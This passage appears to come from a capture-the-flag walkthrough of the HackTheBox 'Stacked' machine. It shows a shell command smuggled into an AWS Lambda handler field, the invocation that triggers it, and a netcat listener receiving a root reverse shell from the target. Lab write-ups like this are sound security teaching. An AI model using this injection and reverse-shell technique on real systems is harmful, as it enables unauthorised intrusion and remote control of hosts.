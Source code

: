 I’ve already got `/tmp/.0xdf.sh` as a reverse shell in this container. I’ll create a Lambda that calls it:

```

oxdf@hacky$ aws lambda create-function --function-name shell --handler 'index.handler;$(bash /tmp/.0xdf.sh)' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://s3-testing.stacked.htb --runtime nodejs12.x
{
    "FunctionName": "shell",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:shell",
    "Runtime": "nodejs12.x",
    "Role": "arn:aws:iam::123456789012:role/lambda-role",
    "Handler": "index.handler;$(bash /tmp/.0xdf.sh)",
    "CodeSize": 291,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2021-08-25T20:59:54.009+0000",
    "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "52c9494e-accb-47e5-b0ff-d570d9725d49",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}

```

And on invoking with:

```

oxdf@hacky$ aws lambda invoke --function-name shell --endpoint-url http://s3-testing.stacked.htb out.json

```

It hangs, but a shell returns:

```

oxdf@hacky$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.112] 54300
bash: cannot set terminal process group (1479): Not a tty
bash: no job control in this shell
bash-5.0# 

```

## Shell as root on Stacked
